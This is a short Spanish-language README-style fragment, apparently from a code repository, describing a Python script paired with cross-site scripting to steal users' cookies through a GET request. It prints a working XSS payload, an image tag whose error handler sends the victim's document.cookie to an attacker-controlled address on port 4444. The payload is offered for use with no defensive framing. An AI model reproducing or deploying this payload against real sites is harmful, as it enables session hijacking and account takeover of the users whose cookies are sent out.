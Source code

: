 Un script en python corto pero efectivo para con un XSS, para hacer una solicitud de tipo GET y poder obtener las cookies del usuario de manera exitosa.

XSS: <img src=notexist onerror=this.src='http://192.168.8.109:4444/grab.py?'+document.cookie>

